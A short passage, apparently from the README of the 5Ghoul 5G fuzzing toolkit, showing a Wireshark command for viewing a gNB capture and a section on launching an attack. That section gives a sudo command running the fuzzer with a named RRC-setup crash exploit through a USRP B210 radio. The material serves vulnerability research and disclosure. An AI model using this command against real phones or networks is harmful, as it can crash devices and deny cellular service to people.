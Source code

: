 ```python
./bin/wireshark logs/5gnr_gnb/capture_nr5g_gnb.pcapng
```

<p align="center"><img src="./docs/figures/5g-pcapng-capture.png" alt="5g-pcapng-capture" style="zoom: 80%;" /></p>



# 3. ☢️ Launching a 5Ghoul attack

To put it simply, you can just run the following command after connecting USRP B210 to your PC/Laptop:

```bash
sudo ./bin/5g_fuzzer --exploit=mac_sch_rrc_setup_crash_var --MCC=001 --MNC=01
```

